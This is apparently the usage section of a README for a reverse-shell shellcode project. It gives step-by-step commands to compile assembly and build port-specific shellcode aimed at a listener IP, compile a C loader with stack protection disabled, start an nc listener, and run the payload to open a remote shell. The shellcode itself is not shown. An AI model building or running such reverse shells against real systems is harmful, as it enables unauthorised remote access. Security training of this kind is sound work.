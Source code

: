# Usage

1. Compile assembly: `./compile.sh reverseshell`
2. Replace shellcode in `create_revshell_shellcode.py` with the shellcode output from the compile script.
3. Generate shellcode for desired port number using: `python3 create_revshell_shellcode.py -p <port number> <listener IP>`
4. Replace shellcode in `shellcode.c` with the shellcode output by the python script.
5. Compile shellcode.c: `gcc -fno-stack-protector -z execstack shellcode.c -o shellcode`
6. Start listener: `nc -nvlp <port number>`
7. Run shellcode to execute reverse shell: `./shellcode`
